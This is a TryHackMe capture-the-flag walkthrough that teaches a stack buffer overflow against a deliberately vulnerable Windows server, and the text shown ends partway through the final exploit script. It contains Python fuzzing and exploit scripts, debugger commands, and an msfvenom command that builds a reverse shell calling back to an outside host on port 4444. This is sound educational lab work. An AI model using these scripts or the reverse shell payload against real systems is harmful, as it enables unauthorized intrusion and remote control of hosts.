# Author
[Marco Urbano](https://marcourbano.github.io) aka CrashOverflow

# Disclaimer
This walktrough of the Buffer Overflow Preparation from TryHackMe describes the exploitation of an intentionally vulnerable binary and it is **for educational purposes only**.

# Stack Buffer Overflow: JMP ESP Attack

The following article will explain in a clear -- hopefully -- way how to exploit the stack based buffer overflow for a vulnerable Windows 32bit executable.
This executable seems to have **ASLR (Address Space Layout Randomization) activated** -- since everytime it is run, the stack frame is located in a different address -- and **no DEP (Data Execution Prevention)** since we're able to execute istructions placed within the stack frame.

The vulnerable example executable is the one provided by TryHackMe, within the room [“bufferoverflowprep”](https://tryhackme.com/room/bufferoverflowprep)

Theoretical pre-requisites to understand this article:
- basic knowledge of how memory works (e.g. stack, heap, bss, text segments)
- basic knowledge of assembly
- networking basics

Other pre-requisites (not needed if you want to experiment via the TryHackMe room):
- Windows host
- [Immunity Debugger](https://www.immunityinc.com/products/debugger/) 
- [Mona script](https://github.com/corelan/mona/tree/master)
- A vulnerable executable, compiled with no DEP and with DLLs (not ASLRed) containing some JMP ESP statements.

## What is a buffer overflow attack in simple words.

Buffer overflows happens because of programming errors that allow the attacker to insert within a buffer more data that it can hold.
Normally this would result in the well known *segmentation fault* error... but what if we could inject malicious code to make the program do things it was not supposed to do? buffer overflows aim to this.

## A closer look: why does this happen?

This happens because of the design of the memory.


When a function is called, a structure called a *stack frame* is pushed onto the stack, and the EIP register jumps to the first instruction of the function. 
Each stack frame contains the local variables for that function and a return address so EIP can be restored: when the function is done, the stack frame is popped off the stack and the return address is used to restore EIP.

A stack frame contains the following items, that will be pushed upon the stack in the following order.

1. Function parameters.
2. **Return address**: it is the address of the istruction after the one that performed the call to this function. It is pushed upon the stack when the processor encounters the `call` statement and it will be popped out of the stack when current function will end in order to allow the correct execution of the main program. 
3. Saved Frame Pointer (SFP): the EBP register—sometimes called the frame pointer (FP) or local base (LB) pointer—is used to reference local function variables in the current stack frame. The SFP is the EBP from the previous subfunction, that will be restored when current subfunction ends[^1].
4. Local function parameters: it will include the vulnerable buffer to overflow.

When the vulnerable buffer is written with more bytes that it can handle, these bytes will overwrite the contiguous memory and, if the size of the input is big enough, they will overwrite the return address: if the content of the input overwriting the return address is just junk data , it will lead to a program crash, instead, **if it is an address that the attacker can control, it will lead the program to perform actions that it was not designed to perform (as popping out a shell!).** 


## How to do it practically

Practically speaking, we can follow a set of steps, from discovering if the executable is vulnerable to crafting the malicious shellcode to exploit it.
These steps are the following:

1. **Fuzzing**: we will try to crash the program with an increasing input to discover if it is vulnerable to BoF.
2. **Finding the return address**: this phase will allow us **to find out how many bytes there are between the buffer and the return pointer**, that is the address that we need to overwrite with the address pointing to the malicious code.
3. **Badchars** discovery: here we need to discover which characters would not be written correctly within the memory, so we must take note of these in order to write a shellcode that does not contain them.
4. Generating **shellcode**.
5. **Pointing to the shellcode**.
6. **Exploitation: fun and profit ;-)**

### Fuzzing

Fuzzing means to provide unexpected input data to the target executable in order to trigger *unexpected behaviour*.

The vulnerable executable we're targeting in this experiment is a server: we can connect to it with netcat by typing

```bash
nc ip_address port
```

The output we're getting is the following



This phase objective is to crash the vulnerable target by inserting large input values: we can automate this task via a simple python script that will send increasingly long strings comprised of As.

```python3
#!/usr/bin/env python3

import socket, time, sys

# Supposing that the target server ip address is 10.10.116.35
ip = "10.10.116.35"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

After executing the script, we figure out that the server crashes with an input value of 2000 bytes (2000 As).



**Let's rock, the server is vulnerable!** 

Now all we need to do is to *take the measures* in order inject a payload that overwrites the return address with one that we can control.

# Finding the return address (aka taking the measures)


The most simple way to find out the distance between the buffer and the return address, called the *offset*, is to input a string called a *cyclic sequence*: it is a string in which every possible length-n string occurs exactly once as a substring. (e.g. [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)). The reason behind that choice is simple: <ins>since our input value will overwrite the return address within the stack and that value will be popped out within the EIP register when the program crashes, we just need to find the value of EIP within the cyclic sequence we injected to figure out the offset.<ins>

Using the cyclic sequence guarantees that <ins>the string found within EIP is unique<ins>, so the offset will be correct.

The cyclic pattern shall be longer that the input value that crashed the target in order to be sure to overwrite the return address: at a guess, 400 bytes longer should suffice, but only the debugger can reveal it.

Let's generate a cyclic pattern via the *metasploit framework*:

```bash
# Generating a 2400 byte cyclic pattern.
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
the resulting pattern will be the following.


In order to send this payload to the vulnerable server, we can write another simple python script that can be used to exploit it.

```python3
import socket

ip = "10.10.116.35"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
# Little Endian --> because it has to be pushed within the stack and will be popped out from the least significant byte.
retn = ""
# NOP Sled 
padding = ""
# Cyclic pattern / Bytearray (badchars: \x00) / Shellcode
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
The main parts composing the string to inject are:

- prefix: this case will be the name of the program to invoke.
- **offset**: this is the effective distance between buffer start and return address within the stack.
- **overflow**: the series of characters that will overflow the buffer.
- **retn**: the value we want to write within the EIP, that is the value that will overwrite the return address within the stack frame.
- **padding**: it is used to <ins>make room between the effective malicious code and the return address. The reason of adding a padding, that is composed by a set of NOP (No OPeration statement), is that the payload we're gonna try to execute could not be placed exactly near the return address because of memory allocation. Using a NOP Sled will allow us to execute our exploit more reliably.</ins>
- **payload**: the effective malicious code to be executed by the processor. It is made by hexadecimal values that represent assembly code. 

Executing this script with the cyclic pattern as payload will crash the server and overwrite the return address with a 4 byte substring from that.



Analyzing the EIP registry value with Immunity Debugger, we find out that it equals to `6F43396E`.
This is an hexadecimal value from the cyclic pattern; we can convert it to char, but first we need to rewrite it in inverse order, since the values will be written to the stack in *little-endian* (the least significant byte comes first): the hexadecimal value for these characters is `6E39436F`, that stands for `n9Co`.



Since we're lazy, we can calculate the distance between these chars and the start of the cyclic pattern with another script from the metasploit framework, the `pattern_offset.rb` script.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2400 -q 6F43396E
```

That will result in `1978`.




The last thing we need to do in this phase is to check if the offset discovered is correct by modifying the `exploit.py` script to write **something we can retrieve within the return address**.



We set “ABBA”, that is 4 bytes value, to fill the return address.



Executing exploit.py and then analysing the EIP register, we can correctly find that the value of return address is `\x41\x42\x42\x41`, hence `ABBA`!


### Badchars discovery.

Before we get into writing the shellcode, there is one last argument to treat: *badchars*. 
Badchars are those characters that will be filtered out by the function reading the input value (e.g. strcpy, scanf, etc): <ins> these values will not be able to reach the memory after the injection</ins>, so we need to figure out which they are in order to write a shellcode that does not contain them.

We can accomplish this task following five simple steps:
1. Generating a *bytearray*, that is <ins>an array that contains every character other than the badchars found so far</ins>, with the Mona script for Immunity Debugger. 
2. Generate the same bytearray to inject as the payload.
3. After executing the exploit with the bytearray, <ins>compare the injected bytearray with the one generated previously to find the first byte that is missing</ins>.
4. If, there some missing character, hence some badchar is resulting, go to 1 and generate the bytearray without the first badchar found.
5. If the bytearray in memory and the one generated with Mona are the same, all the badchars have been identified.


That said, let's see how to generate a bytearray with Mona.

```bash
!mona bytearray -b "\x00"
```

This command will generate a bytearray that contains all characters but `\x00`, that is the so called *null byte*, also known for being the *string terminator*.



We can generate the same bytearray generated with Mona locally with a simple python script called **bytearray_generator.py** that takes as input the list of badchars, separated by whitespaces.

```python3
# importing sys to pass badchars to not print.
import sys

goodchars = 0
badchars = "\\x00"
print("bytearray:\n")
for x in range(1, 256):
	# :02 says to print x as 2 digits in hex
	if "{:02x}".format(x) not in sys.argv:
  		print("\\x" + "{:02x}".format(x), end='')
  		goodchars += 1
	else:
  		badchars += "\\x"+"{:02x}".format(x)
print()
print("\nbadchars not printed: " + (str) (x - goodchars + 1 ))
print("\nbadchars: " + badchars)
```

The first bytearray_generator.py call will be as follows



With this bytearray, we can modify the **exploit.py** script as follows

```python3
import socket

ip = "10.10.116.35"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
# Little Endian --> because it has to be pushed within the stack and will be popped out from the least significant byte.
retn = ""
# NOP Sled 
padding = ""
# Cyclic pattern / Bytearray (badchars: \x00) / Shellcode
# badchars for OVERFLOW1 \x00
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```

Last thing we need to learn is how to compare the injected bytearray with the one generated by Mona: this can be accomplished by executing the following Mona command within Immunity Debugger

```bash
!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
```

One of the key points here is: **why to compare the bytearray.bin, that is the byterray generated with Mona, with the content of the ESP, that is the address of the head of the stack?**  

This question can be answered by <ins>keeping in mind how the stack works</ins>: **when an assembly subfunction ends its execution, its stack frame is popped out from the stack, so the Stack Pointer (ESP) will point to the new “head of the stack”. Since we have placed our bytearray after the return address, starting from the previous subfunction stack frame, the ESP will point exactly there!**


The result of the previous mona compare command will be shown within the “Log data” window: in this case, the first badchar found is \x07.



This procedure shall be repeated until no badchars are found, like the screenshot below.



### Generating shellcode.

When all the bachars are identified, it's time to craft the *shellcode*[^2]: we can make it ourselves, writing it in assembly, or generate it with some useful tool such as `msfvenom`.

Since we're writing our shellcode after the return address, <ins>we've not length constraints</ins>, so we can execute the following msfvenom statement, crafting a *Windows reverse shell*, C encoded, giving us back a shell on port 4444. 

```bash
# The badchars here are 00 07 2E A0
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.206.203 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

The resulting exploit.py, with our shellcode as payload, will look like the following

```python3
import socket

ip = "10.10.116.35"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
# Little Endian  --> because it has to be pushed within the stack and will be popped out from the least significant byte.
retn = "ABBA"
# NOP Sled x16
padding = "\x90" * 16
# Cyclic pattern / Bytearray (badchars: \x00) / Shellcode
# badchars for OVERFLOW1 \x00\x07\x2e\xa0
